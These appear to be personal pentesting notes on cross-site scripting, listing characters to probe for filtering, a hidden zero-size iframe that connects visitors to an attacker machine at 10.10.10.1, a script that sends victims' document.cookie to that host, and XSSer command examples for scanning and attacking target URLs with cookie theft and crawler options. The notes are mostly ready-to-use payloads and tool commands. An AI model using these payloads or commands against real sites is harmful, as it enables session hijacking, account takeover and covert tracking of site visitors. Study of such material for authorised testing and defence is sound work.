 Cross-Site Tracing (XST) attack involves the use of Cross-siteScripting (XSS) and the TRACEor TRACK HTTP methods

Cheat sheet: http://ha.ckers.org/xss.html

Reflected, stored 

# general special chars
``<>'"{};``
if those are not filtered or encoded then xss might possible

# injecting visible iframe in payload
is used to embedd other file (f.e.: html document, images) within the current html document
// All users who visit this page with the iframe will connect to 10.10.10.1
``<iframe src=http://10.10.10.1/report height="0" width="0"> </iframe>``
//with netcat connect and you will see the users

# stealing cookies
``<script>new Image().src="http://10.10.10.1/cool.jpg?output="+document.cookie; </scipt>``

# XSSer
//start it with 
xsser --gtk

Examples: 

[Info] This is because you aren't providing:

 At least one -payloader- using a keyword: 'XSS' (for hex.hash) or 'X1S' (for int.hash):

  - ex (GET): xsser -u 'https://target.com' -g '/path/profile.php?username=bob&surname=XSS&age=X1S&job=XSS'
  - ex (POST): xsser -u 'https://target.com/login.php' -p 'username=bob&password=XSS&captcha=X1S'

 Any extra attack(s) (Xsa, Xsr, Coo, Dorker, Crawler...):

  - ex (GET+Cookie): xsser -u 'https://target.com' -g '/path/id.php?=2' --Coo
  - ex (POST+XSA+XSR+Cookie): xsser -u 'https://target.com/login.php' -p 'username=admin&password=admin' --Xsa --Xsr --Coo
  - ex (Dorker): xsser -d 'news.php?id=' --Da
  - ex (Crawler): xsser -u 'https://target.com' -c 100 --Cl

 Or a mixture:

  - ex (GET+Manual): xsser -u 'https://target.com' -g '/users/profile.php?user=XSS&salary=X1S' --payload='<script>alert(XSS);</script>'
  - ex (POST+Manual): xsser -u 'https://target.com/login.asp' -p 'username=bob&password=XSS' --payload='}}%%&//<sc&ri/pt>(XSS)--;>'

  - ex (GET+Cookie): xsser -u 'https://target.com' -g '/login.asp?user=bob&password=XSS' --Coo
  - ex (POST+XSR+XSA): xsser -u 'https://target.com/login.asp' -p 'username=bob&password=XSS' --Xsr --Xsa